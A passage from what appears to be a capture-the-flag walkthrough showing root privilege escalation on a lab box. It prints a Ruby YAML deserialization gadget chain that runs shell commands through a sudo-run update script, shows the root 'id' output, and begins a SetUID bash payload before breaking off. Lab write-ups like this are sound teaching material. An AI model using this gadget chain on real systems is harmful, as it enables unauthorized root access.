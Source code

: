 ### POC

I'll grab the POC from the gist and paste it into a file. Wherever I
save it, I'll need to run the command from that directory:



    henry@precious:/dev/shm$ cat dependencies.yml 
    ---
    - !ruby/object:Gem::Installer
        i: x
    - !ruby/object:Gem::SpecFetcher
        i: y
    - !ruby/object:Gem::Requirement
      requirements:
        !ruby/object:Gem::Package::TarReader
        io: &1 !ruby/object:Net::BufferedIO
          io: &1 !ruby/object:Gem::Package::TarReader::Entry
             read: 0
             header: "abc"
          debug_output: &1 !ruby/object:Net::WriteAdapter
             socket: &1 !ruby/object:Gem::RequestSet
                 sets: !ruby/object:Net::WriteAdapter
                     socket: !ruby/module 'Kernel'
                     method_id: :system
                 git_set: id
             method_id: :resolve



Running now shows an error, the output of `id`, and then a traceback:



    henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
    sh: 1: reading: not found
    uid=0(root) gid=0(root) groups=0(root)
    Traceback (most recent call last):
            33: from /opt/update_dependencies.rb:17:in `<main>'
            32: from /opt/update_dependencies.rb:10:in `list_from_file'
    ...[snip]...
             1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
    /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)



It's easy to miss the `id` output with all the other lines, but it's
there, and that's execution as root!

### Shell

To get a shell, I'll update my payload to copy `bash` and make the copy
SetUID and SetGID for root:



    ---
    - !ruby/object:Gem::Installer
        i: x
    - !ruby/object:Gem::SpecFetcher
        i: y
    - !ruby/object:Gem::Requirement
      requirements:
        !ruby/object:Gem::Package::TarReader
        io: &1 !ruby/object:Net::BufferedIO
          io: &1 !ruby/object:Gem::Package::TarReader::Entry
             read: 0
             header: "abc"
          debug_output: &1 !ruby/object:Net::WriteAdapter
